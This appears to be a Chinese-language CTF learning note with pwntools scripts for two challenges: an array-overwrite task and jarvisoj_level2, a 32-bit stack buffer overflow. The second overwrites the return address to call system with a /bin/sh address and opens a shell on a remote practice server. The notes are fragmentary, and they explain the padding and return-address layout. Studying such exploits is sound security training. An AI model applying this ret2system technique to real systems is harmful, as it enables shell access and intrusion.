



编译过程的各个应用及其细节



字母占多少字节?


#### 题目




17LL ll是什么意思?? typedef      long long ll; 所以就是十进制

参考

https://blog.csdn.net/m0_43406494/article/details/109110983

让输入的数组的14位等于17即可


```python
from pwn import *

context.log_level= "debug"

io = process("./pwn")

#payload = p32(17) * 14
payload = p32(0x0)*13 + p32(17)
io.recvuntil("name?")
io.sendline(payload)

io.interactive()
```


## jarvisoj_level2




发现/bin/sh


如何利用那个system呢?


栈的结构又忘了..找一下图


```python
from pwn import *

context.log_level= "debug"

#io = process("./pwn")
io = remote("node4.buuoj.cn",27523)

payload = b'a'*140 + p32(0x08048320) +p32(0)+ p32(0x0804A024)
io.sendlineafter('Input:',payload)

io.interactive()
```


有两点需要注意,一个是溢出要先覆盖上一个函数的ebp,这个是32位的,所以+4, 64位的+8

第二个是 加 那个 p32(0), 这里可以随便加,这里是执行system函数后的存储地址


这里其实有好几个system的地址

0x08048320 是plt的

payload = b'a'*140 + p32(0x08048320) +p32(0)+ p32(0x0804A024)

0x0804849e 是对system的调用,直接加入参数即可

payload = b'a'*140 + p32(system_addr) + p32(binsh_addr)


